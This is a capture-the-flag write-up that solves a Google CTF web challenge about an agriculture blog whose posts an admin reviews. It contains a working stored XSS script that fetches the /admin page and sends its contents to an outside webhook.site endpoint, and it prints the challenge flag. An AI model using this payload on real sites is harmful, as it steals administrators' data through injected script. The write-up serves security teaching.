 [../](../../)

# Government Agriculture Network

## web

> Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.
>
> Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.
>
> The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.
>
> You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.
>
> [https://govagriculture.web.ctfcompetition.com/](https://govagriculture.web.ctfcompetition.com/)

The website is a blog where you can post new entries. If you do so and submit something, it says:

	Your post was submitted for review. Administrator will take a look shortly.

Also notice the `admin` button at the top right, so it might probably be the target. When trying to visit it, we're redirected to the main page.

Since when submitting a new post, the admin should review our content, let's try to steal the data behind `/admin` with a XSS payload.

We need an endpoint for our payload, that will receive the data. If we use an online service, like [https://webhook.site/](https://webhook.site/), we don't even have to setup our own.

The following script will request `/admin` and leak the response data via a request to our webhook to us.

```javascript
<script>
	x = new XMLHttpRequest();
	x.onload = function() {
		y = new XMLHttpRequest();
		y.open("GET", "https://webhook.site/02ad0379-670a-4c99-85ea-48b314484949/?content=" + x.response);
		y.send()
	}
	x.open("GET", "/admin");
	x.send();
</script>
```

Shortly after we created a new post with this payload, our webook receives a request and the content contains the flag.

flag: `CTF{8aaa2f34b392b415601804c2f5f0f24e}`